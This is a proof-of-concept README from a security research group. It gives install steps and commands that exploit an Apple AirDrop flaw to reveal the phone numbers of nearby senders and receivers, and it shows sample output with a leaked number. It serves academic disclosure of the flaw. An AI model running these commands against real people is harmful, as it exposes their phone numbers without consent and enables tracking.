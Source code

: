 # PoC: AirDrop Phone Number Leak

This PoC demonstrates the contact identifier leakage in Apple AirDrop that was described in

* **[HHSSW21]** Alexander Heinrich, Matthias Hollick, Thomas Schneider, Milan Stute, and Christian Weinert. **PrivateDrop: Practical Privacy-Preserving Authentication for Apple AirDrop** in _30th USENIX Security Symposium_. [Website](https://privatedrop.github.io). [Preprint](https://www.usenix.org/system/files/sec21fall-heinrich.pdf).

The paper also proposes a privacy-preserving drop-in replacement for Apple AirDrop.

**We notified Apple about this vulnerability on May 11, 2019. Until today, Apple has neither mitigated the issue nor informed us that they are planning to do so.
This means that current Apple systems are still vulnerable (iOS 14.4.2 and macOS 11.2.3 as of April 19, 2021).**

## Installation

Run the following instructions on a Mac (tested with macOS 11.2.3).

1. Checkout the repository.

```bash
git clone https://github.com/seemoo-lab/opendrop.git
cd opendrop
git checkout poc-phonenumber-leak
git submodule update --init
```

2. Install Python dependencies.

```bash
pip3 install -r requirements.txt
```

3. Build [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers).

```bash
brew install libomp
cd rt_phone_numbers
make -f Makefile.macOS
cd ..
```

## Usage

Our PoC is able to exploit both vulnerabilities explained in [HHSSW21]. We provide instructions on how to replicate 

**Note:** We configured the used rainbow table to only work with German mobile phone  numbers (prefix: +49). Other tables, e.g., containing all international phone numbers, can be generated with [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers)'s `rtgen`.

### Contact Identifier Leakage of Sender (§3.3 in [HHSSW21])

Simply run the following and wait for someone in proximity to open the AirDrop sharing menu.

```bash
python3 -m opendrop receive
```

An example output would look like this:

```
Announcing service: host opendrop, address fe80::c8b9:fbff:fee9:d544, port 8771
Starting HTTPS server
Nearby phone number: +49<...>
```

### Contact Identifier Leakage of Receiver (§3.4 in [HHSSW21])

Exploiting this vulnerability requires the victim to have the attacker in their address book. 
In particular, the attacker needs to present a valid AirDrop certificate containing its contact identifiers to the victim.
You can follow [these instructions](https://github.com/seemoo-lab/airdrop-keychain-extractor) to extract your current AirDrop certificate and use it with OpenDrop.
This attack does not require any interaction on part of the victim. Simply run:

```bash
python3 -m opendrop find
```

An example output would look like this:

```
Looking for receivers. Press Ctrl+C to stop ...
Nearby phone number: +49<...>
Found  index 0  ID a019b536c38b  name John Doe's iPhone
```
